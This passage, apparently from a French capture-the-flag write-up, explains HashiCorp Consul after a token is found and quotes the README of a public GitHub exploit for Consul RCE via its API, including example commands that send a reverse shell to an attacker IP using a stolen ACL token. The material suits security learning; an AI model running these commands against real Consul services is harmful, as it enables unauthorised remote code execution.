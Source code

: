 Nous venons de trouver un token utiliser pour **"Consul"**.

Consul est un outil open source développé par HashiCorp pour la gestion des services et la découverte de services. Il s'agit d'un système de configuration distribué et d'un système de découverte de services qui permet aux applications de s'enregistrer dynamiquement et de découvrir les services disponibles dans un environnement de cloud computing.

* * *

### Recherche d'exploit :

Après quelques recherche sur internet, on peut trouver un exploit déjà écrit sur Github :

Lien : https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API

Voici le fichier README.md :

```txt
## This exploit helps you to get a reverse shell, exploiting the Hashicorp-Consul service via API, not using tools like metasploit

· When executing the script with python3 with the --help parameter, it asks us for a series of parameters
    
    --rhost RHOST  remote host  (ip of the victim machine, if not specified, 127.0.0.1 will be used)
    --rport RPORT  remote port  (port where the consul API is executed, if not specified, 8500 will be used)
    --lhost LHOST  local host   (ip where the shell will be received)
    --lport LPORT  local port   (port where the shell will be received)
    --token TOKEN  acl token    (acl token needed to authenticate with the api)

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit1.png">


· If we have what is necessary, we can give it the arguments and run it, example:

    python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.10 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5


· or can be compacted with the other argument options

    python3 exploit.py -rh 127.0.0.1 -rp 8500 -lh 10.10.14.10 -lp 443 -tk bb03b43b-1d81-d62b-24b5-39540ee469b5
    

· When executing the script with its arguments we should see a message with a + which indicates that the request has been sent correctly

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit2.png">


· Checking your listener, in a couple of seconds you should get a shell as the user running the service

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit3.png">


· In case it detects that it cannot connect to the host, it will give a message, check the port is exposed and use port forwarding if necessary, then try again


```
